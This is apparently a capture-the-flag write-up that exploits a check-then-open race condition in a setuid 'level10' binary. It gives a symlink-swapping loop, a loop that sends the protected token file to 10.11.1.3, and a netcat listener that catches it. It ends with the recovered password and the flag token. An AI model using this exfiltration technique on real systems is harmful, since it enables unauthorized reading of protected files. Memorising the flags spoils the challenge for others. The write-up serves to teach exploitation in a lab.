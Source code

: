 ##### 1 - Analyze binary and behavior
``./level10``
>./level10 file host
>	sends file to host if you have access to it

``./level10 token 10.11.1.3``
>You don't have access to token

Binary is checking access rights before opening file and sending it to host

----

##### 2 - Exploit race condition
Du to timing between checking permission and opening file, we will try to exploit race condition
With many attempts we gonna try to make a symbolic link on the file we have right on and swap this
symbolic link with one who goes to the token file

``while true; do ln -fs ~/level10 /tmp/aaa; ln -fs ~/token /tmp/aaa; done``

In a new SSH terminal :
``./level10 /tmp/aaa x``
>You don't have access to /tmp/aaa
``./level10 /tmp/aaa x``
>You don't have access to /tmp/aaa
``./level10 /tmp/aaa x``
>Connecting to 10.11.1.s:6969 .. Unable to connect to host x

Seems like it could work, let's try to automate it, in a infinite while.

``while true; do ~/level10 /tmp/aaa 10.11.1.3; done``

----

##### 3 - Open a server and wait for connection

In a new local terminal :
``while true; do nc -l -p 6969; done``

>USELESS STUFF
>(.*( )*.
>woupa2yuojeeaaed06riuj63c
>.*( )*.
>USELESS STUFF

-----

##### 4 - Getting the flag
``su flag10``
``password: woupa2yuojeeaaed06riuj63c``

``getflag``
>Check flag.Here is your token : **feulo4b72j7edeahuete3no7c**
